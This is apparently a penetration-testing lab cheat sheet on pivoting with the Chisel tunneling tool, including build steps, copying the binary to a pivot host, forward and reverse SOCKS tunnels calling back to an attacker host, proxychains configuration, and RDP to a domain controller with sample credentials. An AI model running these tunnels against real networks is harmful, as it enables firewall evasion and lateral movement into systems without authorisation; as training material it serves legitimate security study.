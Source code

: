 # Content
- [Chisel](#chisel)
- [Chisel Pivot](#chisel-pivot)
- [Chisel Reverse Pivot](#chisel-reverse-pivot)

# Chisel
- [chisel](https://github.com/jpillora/chisel)
- Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH.
- Chisel can create a client-server tunnel connection in a firewall restricted environment.


## Chisel Pivot
### Setting Up & Using Chisel
```shell
$ go install github.com/jpillora/chisel@latest

# or

$ git clone https://github.com/jpillora/chisel.git
$ cd chisel
$ go build
## shrinking the size of the binary
$ go build -ldflags="-s -w"
$ upx brute chisel 
```

### Transferring Chisel Binary to Pivot Host
```shell
$ scp chisel ubuntu@10.129.202.64:~/
```
### Running the Chisel Server on the Pivot Host
```shell
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5


2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

### Connecting to the Chisel Server
```shell
$ ./chisel client -v 10.129.202.64:1234 socks
```

### Editing & Confirming proxychains.conf

```shell
$ tail -f /etc/proxychains.conf 

# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

### Starting the Chisel Server on our Attack Host
```shell
$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

### Connecting the Chisel Client to our Attack Host

```shell
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```

### Editing & Confirming proxychains.conf
```shell
$ tail -f /etc/proxychains.conf 

# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

